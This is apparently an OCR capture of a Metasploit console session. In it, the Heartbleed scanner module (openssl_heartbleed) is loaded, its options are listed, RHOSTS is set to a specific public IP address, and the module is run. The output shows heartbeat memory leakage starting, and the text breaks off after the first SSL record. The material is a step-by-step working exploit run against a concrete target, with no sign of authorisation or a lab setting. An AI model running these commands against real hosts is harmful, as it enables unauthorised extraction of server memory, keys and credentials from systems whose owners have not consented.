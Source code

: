 	Name Disclosure Date Rank Check Description

	---- --------------- ---- ----- -----------

	auxiliary/scanner/ssl/openssl_heartbleed 2014-04-07 normal Yes OpenSSL Heartbeat
	(Heartbleed) Information Leak

	auxiliary/server/openssl_heartbeat_client_memory 2014-04-07 normal No OpenSSL
	Heartbeat (Heartbleed) Client Memory Exposure

	msf5 > use auxiliary/scanner/ssl/openssl_heartbleed

	msf5 auxiliary(scanner/ssl/openssl_heartbleed) > show options

	Module options (auxiliary/scanner/ssl/openssl_heartbleed):

	Name Current Setting Required Description

	---- --------------- -------- -----------

	DUMPFILTER no Pattern to filter leaked memory before storing

	LEAK_COUNT 1 yes Number of times to leak memory per SCAN or DUMP invocation

	MAX_KEYTRIES 50 yes Max tries to dump key

	RESPONSE_TIMEOUT 10 yes Number of seconds to wait for a server response

	RHOSTS yes The target address range or CIDR identifier

	RPORT 443 yes The target port (TCP)

	STATUS_EVERY 5 yes How many retries until key dump status

	THREADS 1 yes The number of concurrent threads

	TLS_CALLBACK None yes Protocol to use, "None" to use raw TLS sockets (Accepted:
	None, SMTP, IMAP, JABBER, POP3, FTP, POSTGRES)

	TLS_VERSION 1.0 yes TLS/SSL version to use (Accepted: SSLv3, 1.0, 1.1, 1.2)

	Auxiliary action:

	Name Description

	---- -----------

	SCAN Check hosts for vulnerability

	msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 92.154.49.106

	RHOSTS => 92.154.49.106

	msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

	[*] 92.154.49.106:443 - Leaking heartbeat response #1

	[*] 92.154.49.106:443 - Sending Client Hello...

	[*] 92.154.49.106:443 - SSL record #1:

	[*] 92.154.49.106:443 - Type: 22

	[*] 92.154.49.106:443 - Version: 0x0301
